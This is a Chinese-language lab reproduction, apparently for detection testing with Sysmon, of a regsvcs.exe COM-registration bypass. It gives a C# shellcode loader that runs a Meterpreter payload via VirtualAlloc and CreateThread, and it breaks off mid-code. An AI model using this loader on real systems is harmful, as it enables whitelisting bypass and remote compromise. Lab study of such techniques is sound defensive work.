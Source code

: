 ## 测试复现

### 测试环境

- **攻击机**：Kali Linux 2019，IP：192.168.126.146
- **靶机**：Windows Server 2012，IP：192.168.126.156，Sysmon已部署，.NET Framework 4.0.30319安装
- **工具**：Metasploit、Visual Studio（或Windows SDK提供`sn.exe`）、`csc.exe`

### 测试过程

#### 1. 生成恶意DLL的C#代码（攻击机或靶机）

- 使用提供的C#代码模板（`regsvcs.cs`），替换Shellcode为Meterpreter Payload：
  ```csharp
  using System;
  using System.EnterpriseServices;
  using System.Runtime.InteropServices;

  namespace regsvcser
  {
      public class Bypass : ServicedComponent
      {
          public Bypass() { Console.WriteLine("I am a basic COM Object"); }

          [ComRegisterFunction]
          public static void RegisterClass(string key)
          {
              Console.WriteLine("I shouldn't really execute");
              Shellcode.Exec();
          }

          [ComUnregisterFunction]
          public static void UnRegisterClass(string key)
          {
              Console.WriteLine("I shouldn't really execute either.");
              Shellcode.Exec();
          }
      }

      public class Shellcode
      {
          public static void Exec()
          {
              byte[] shellcode = new byte[] { /* Meterpreter Payload from msfvenom */ };
              UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
              Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
              IntPtr hThread = IntPtr.Zero;
              UInt32 threadId = 0;
              IntPtr pinfo = IntPtr.Zero;
              hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
              WaitForSingleObject(hThread, 0xFFFFFFFF);
          }

          private static UInt32 MEM_COMMIT = 0x1000;
          private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

          [DllImport("kernel32")]
          private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

          [DllImport("kernel32")]
  ```